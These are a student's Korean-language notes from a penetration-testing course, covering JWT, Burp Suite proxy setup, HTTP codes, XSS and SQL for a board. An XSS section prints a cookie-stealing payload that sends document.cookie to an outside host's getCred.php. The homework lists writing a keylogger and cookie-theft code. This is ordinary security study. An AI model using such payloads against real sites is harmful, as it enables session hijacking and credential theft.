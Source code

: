 모의해킹 7기 4주차 - cicd

클라이언트 측 정보에서 발생하는 취약점이 뭐가 있을까?

쿠키를 조작 못 하게 -> jwt
어썬ijation?
jwt token
hash값을 통해서 무결성 체크를 한다

암행어사의 마두패 같은 느낌

authorization

hmac

로그인 할 때 사용하는 sql 문에 종류가 다양하다
개행은 알겠는데
괄호는 뭐냐
필터링

burp suite
web proxy tool
browser <-> web proxy tool <-> server

웹서버는 dmz망으로 연결되어 있다고?
oscp

정보수집
서비스분석
exploit
post-exploit

proxy listners

모바일 앱 해킹할 때: all interfaces
로컬 컴퓨터에서 burp suite 사용할 때 -> 루프백 사용
외부 컴퓨터에서 로컬 컴퓨터의 burp suite 사용할 때 -> all interface
로컬 컴퓨터가 외부 컴퓨터의 burp suite 사용할 때 -> all interface
도커 같이 가상 컴퓨터의 경우 어떻게 열어야 하니?

프록시 리스너를 사용하는 이유?

핸드폰에서도 와이파이, 데이터 설정에서 프록시 설정하면 burp suite 사용 가능

proxy란???

flag {}

리피터 반복해서 보낸다

war game 재밌네

http
200: ok
300: redirect
400: client error
500: server error

http header

# xss
공격자가 스크립트를 삽입할 수 있는 공격
피해자의 브라우저에서 공격자가 삽입한 스크립트가 실행된다

# hijack session id
```js
let cookieData = document.cookie;
```

# data send
``` js
const http = new XMLHttpRequest();
const url = 'https://normaltic.com/test.php';

http.open('GET', url);
Http.send();
Http.onreadystatechange = (e) => {
    console.log(Http.responseText);
};
```

# data send: like hacker
``` js
let cookieData = document.cookie;
let attackURL = "https://normaltic.com/getCred.php?cookie=";
new Image().src = attackURL + cookieData;
```

%3d%3d ==
==으로 끝나니까 base64일 가능성이 높겠다 <- ??? 어떤 과정을 거쳐야 이렇게 나오는 거죠???

게시판 구현 -> sql
제목, 내용, 작성자, 작성일, 조회수
게시판 글 작성: insert
게시판 글 리스트 보기: select
게시판 글 내용 읽기: select
게시판 글 수정: update
게시판 글 삭제: delete

게시판 페이징: limit (index) (count)
게시글 제목, 
where title like %var%
 = `grep *var*`

게시글 정렬
order by [column name] [asc/desc]

과제
1. burp suite: ctf 문제 풀이 -> 블로그에 올리면 플래그만 감춰서 올려요
2. js
문법 (수업 노트)에 적혀져 있는 친구 공부
만들어 놓은 로그인 페이지 키로거 만들기
쿠키 탈취 코드 짜기
3. 게시판 구현하기
자료실 익명 게시판